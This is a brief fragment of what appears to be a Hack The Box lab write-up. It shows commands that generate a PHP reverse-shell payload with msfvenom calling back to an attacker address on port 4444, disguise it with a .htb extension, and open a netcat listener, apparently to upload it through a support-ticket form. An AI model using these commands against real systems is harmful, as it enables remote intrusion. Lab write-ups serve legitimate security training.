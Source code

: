 ![support html source code php->htp](images/ticket-sourcecode.Screenshot_2021-01-29_00-49-55.png)




#### Vuln Investigation


##### Check for exploits

### Penetration

Generating reverse shell in [php](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)

```bash
msfvenom -p php/reverse_php LHOST=10.10.14.141 LPORT=4444 -f raw > shell.php
cp shell.php shell.htb
```

Let's start a reverse shell (check your firewall)
```bash
nc -lvnp 4444
```


![support upload file](images/support.Screenshot_2021-01-29_01-00-57.png)

